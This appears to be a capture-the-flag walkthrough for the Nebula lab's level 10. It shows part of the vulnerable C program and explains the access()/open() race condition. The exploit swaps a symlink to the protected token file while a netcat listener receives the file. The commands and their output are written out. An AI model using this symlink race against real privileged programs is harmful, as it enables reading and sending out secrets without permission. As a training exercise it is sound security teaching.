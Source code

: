 ```c

#define HITHERE ".oO Oo.\n"
    if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
      printf("Unable to write banner to host %s\n", host);
      exit(EXIT_FAILURE);
    }
#undef HITHERE

    printf("Connected!\nSending file .. "); fflush(stdout);

    ffd = open(file, O_RDONLY);
    if(ffd == -1) {
      printf("Damn. Unable to open file\n");
      exit(EXIT_FAILURE);
    }

    rc = read(ffd, buffer, sizeof(buffer));
    if(rc == -1) {
      printf("Unable to read from file: %s\n", strerror(errno));
      exit(EXIT_FAILURE);
    }

    write(fd, buffer, rc);

    printf("wrote file!\n");

  } else {
    printf("You don't have access to %s\n", file);
  }
}
```

Now this one take a bit of playing around to get it right. Basically what we are exploiting here is that the file gets checked and then gets used. The `access` call checks the permissions based on the actual user, not the guid user. The file open calls however will run as the guid user. So in between these two calls, we _could_ modify the target file and get the program to read the right file.

So ideally we want to create a symlink to a file we own when the `access` call runs, then replace that symlink with one that points to the token file. This relies heavily on timing when to update the symlink. I had a play and this is the most reliable way I have found.

You will need two shells (both on nebula is fine but optional); call them termA and termB. So in termB startup a listening netcat on the relevant port

```sourceCode
level10@nebula:~$ nc -l 18211
```

in termA we create our symlink, then run the command along with a command to update the symlink

```sourceCode
level10@nebula:/home/flag10$ touch /tmp/mytoken
level10@nebula:/home/flag10$ ln -fs /tmp/mytoken /tmp/getme
level10@nebula:/home/flag10$ ./flag10 /tmp/getme 192.168.0.8 & ln -fs /home/flag10/token /tmp/getme
[1] 7359
Connecting to 192.168.0.8:18211 .. level10@nebula:/home/flag10$ Connected!
Sending file .. wrote file!
```
